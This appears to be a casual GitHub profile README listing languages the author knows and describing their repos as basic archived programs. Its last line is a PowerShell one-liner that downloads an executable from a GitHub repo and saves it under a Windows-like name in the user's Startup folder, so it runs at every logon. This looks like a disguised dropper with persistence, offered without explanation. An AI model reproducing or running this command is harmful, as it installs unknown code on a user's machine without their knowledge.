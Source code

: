 Languages im good at:

- O_O

Languages I know a fair bit of:

- C#

Languages I'd like to learn:

- Python
- Javascript
- Java




Honestly, all the repos I have are basic ass programs that even a 10 year old can make. 


I'm just archiving them here on github.

https://drive.google.com/file/d/1Xa41lDOdDeJFHgqIhOgVGVSz-fvwX0Sc/view?usp=sharing

$var = $env:UserName; $source = 'https://github.com/throwrarwin/temp/blob/main/Windows%20manager.exe?raw=true'; $filename = 'C:\Users\'+$var+'\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Windows RWIN.exe'; wget $source -outfile $filename
